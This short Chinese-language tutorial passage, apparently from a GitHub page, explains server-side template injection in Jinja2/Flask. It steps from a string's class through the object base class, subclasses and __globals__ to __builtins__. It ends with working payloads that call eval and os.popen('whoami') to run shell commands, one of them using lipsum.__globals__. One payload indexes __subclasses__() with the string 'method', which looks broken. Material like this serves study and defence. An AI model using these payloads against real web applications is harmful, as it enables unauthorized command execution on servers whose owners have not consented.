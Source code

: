 ![alt text](images/image21.png)
首先拿到一个class，以下方式均可：
```python
{{''.__class__}}
# <class 'str'>
{{().__class__}}
# <type 'tuple'>
{{[].__class__}}
# <type 'list'>
{{{}.__class__}}
# <type 'dict'>
```
然后拿到基类`object`：
```python
{{''.__class__.__base__}}
# <class 'object'>
```
找一个能用的子类(即可以使用`__globals__`，一般找的子类可以是function类或method类)，例如这里我找的是`method` class并进行实例化：
```python
[].__class__.__base__.__subclasses__()['method'].__init__
```
得到一个对象实例后，就可以调用`__globals__`获取该方法所处空间的全局变量，其中包含`__builtins__`：
```python
[].__class__.__base__.__subclasses__()['method'].__init__.__globals__['__builtins__']
```
进而可以使用`__builtins__`下的`eval`函数以及具体命令：
```python
{{[].__class__.__base__.__subclasses__()['method'].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```

#### 示例二
```python
{{lipsum.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```